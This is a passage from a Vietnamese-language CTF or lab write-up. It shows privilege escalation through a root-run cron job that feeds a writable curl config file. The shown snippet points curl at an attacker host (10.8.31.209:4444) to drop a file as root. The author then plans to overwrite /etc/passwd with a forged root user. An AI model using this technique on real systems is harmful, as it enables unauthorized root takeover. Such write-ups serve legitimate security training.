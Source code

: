 - Thành công lấy được shell của `F30s`

- Check file `site_check`, file này được chạy bởi `root`

![](Images/35.png)

- Đây là một file cấu hình sẽ được thực thi với `curl -K`.

- Vì vậy thử thay đổi để tạo một file mới

```bash
url = "http://10.8.31.209:4444/check.txt"
output = "/tmp/check.txt"
```

![](Images/36.png)

- Sau khi cronjob chạy, một file mới là check.txt được tạo dưới quyền root

![](Images/37.png)

- Vậy mục tiêu là tạo một file passwd giả mạo với root mới tên là `root1`.

![](Images/38.png)
